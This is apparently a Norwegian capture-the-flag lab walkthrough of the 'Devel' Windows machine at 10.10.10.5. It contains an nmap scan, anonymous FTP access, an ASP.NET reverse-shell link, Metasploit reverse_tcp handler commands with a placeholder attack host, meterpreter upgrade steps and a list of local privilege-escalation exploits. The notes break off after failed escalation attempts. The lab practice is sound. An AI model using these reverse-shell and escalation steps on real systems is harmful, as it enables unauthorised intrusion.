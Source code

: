 # devel 10.10.10.5

windows maskin

`oot@kali:~# nmap -sS -P0 10.10.10.5`

`Starting Nmap 7.40 ( https://nmap.org ) at 2017-05-26 09:47 EDT`

`Nmap scan report for 10.10.10.5`

`Host is up (0.061s latency).`

`Not shown: 998 filtered ports`

`PORT   STATE SERVICE`

`21/tcp open  ftp`

`80/tcp open  http`

logget inn **ftp **med **anonymous**.   login med -i som fjerner prompts

http kjører iis7


fikk et skikkelig shell med [https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/](https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/)


**windows 7 6.1 build 7600 x86**

**koble et shell rett inn i metasploit og oppgradere til meterpreter**



```
* use mutli/handler

* set LHOST attack-machine

* set LPORT port-as-appropraite

* set payload windows/shell/reverse\_tcp

* exploit'
```


background session med ctrl z&lt;

`use post/multi/manage/shell_to_meterpreter`


kan her kjøre kommandoer. 


```
net users
```


```
Administrator            babis                    Guest**
``

/c whoami = iis apppool\**web**



**```
use post/multi/recon/local_exploit_suggester **
**FORSØKT ALLE DISSE UTEN HELL**



```

\[+\] 10.10.10.5 - exploit/windows/local/bypassuac\_eventvwr: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms10\_015\_kitrap0d: The target service is running, but could not be validated.

\[+\] 10.10.10.5 - exploit/windows/local/ms10\_092\_schelevator: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms13\_053\_schlamperei: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms13\_081\_track\_popup\_menu: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms14\_058\_track\_popup\_menu: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms15\_004\_tswbproxy: The target service is running, but could not be validated.

\[+\] 10.10.10.5 - exploit/windows/local/ms15\_051\_client\_copy\_image: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms16\_016\_webdav: The target service is running, but could not be validated.

\[+\] 10.10.10.5 - exploit/windows/local/ms16\_032\_secondary\_logon\_handle\_privesc: The target service is running, but could not be validated.

\[+\] 10.10.10.5 - exploit/windows/local/ppr\_flatten\_rec: The target appears to be vulnerable.
```

getsystem = ingenting

```

wmic qfe get
```

no work :(

sjekke hvilke 



